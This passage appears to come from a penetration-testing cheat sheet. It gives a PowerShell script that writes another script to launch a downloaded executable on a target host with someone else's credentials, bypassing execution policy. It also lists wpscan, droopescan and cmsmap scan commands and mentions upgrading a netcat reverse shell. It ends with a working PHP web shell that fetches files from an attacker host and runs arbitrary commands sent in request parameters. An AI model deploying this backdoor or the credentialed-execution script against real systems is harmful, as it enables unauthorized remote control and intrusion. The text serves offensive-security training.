 Maybe you want to execute the above file as another user if you have their creds? This is equally helpful

```
echo $secpasswd = ConvertTo-SecureString “insert_plaintext_password_here” -AsPlainText -Force > execute.ps1
echo $mycreds = New-Object System.Management.Automation.PSCredential(“username”, $secpasswd) >> execute.ps1
echo $computer = “target_host” >> execute.ps1
echo [System.Diagnostics.Process]::Start(“C:\Users\user\Downloads\firewall.exe”, “”, $mycreds.Username, $mycreds.Password, $computer) >> execute.ps1 

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File <filename>
```

# Content Management System Scanning

These tools should be helpful with some of the more popular CMS like Drupal, WordPress, Joomla, etc

```
cmsmap http://IP_ADDR -f (D,J…)

droopescan scan drupal -u http://IP_ADDR

wpscan --url http://IP_ADDR --enumerate u,p,t 
```

# Full Interactive TTY Shell

In order for this to work, the reverse shell must have been initiated from nc (netcat)

![img](https://miro.medium.com/max/30/1*NLogQjdMcsZzHPX95JdCwg.png?q=20)

![img](https://miro.medium.com/max/543/1*NLogQjdMcsZzHPX95JdCwg.png)

# PHP Backdoors

These are some of the useful PHP backdoors I used. Rather than include the code on here I will link to most of them. There is one I would like to share that I used for both Windows and Linux interchangeably

```
<?php 

if (isset($_REQUEST[‘fupload’])) { 
	file_put_contents($_REQUEST[‘fupload’], file_get_contents(‘http://IP_ADDR/' . $_REQUEST[‘fupload’])); 
}; 

if (isset($_REQUEST[‘fexec’])) { 
	echo ‘<pre>’ . shell_exec($_REQUEST[‘fexec’]) . ‘</pre>’; 
}; 
?>
```

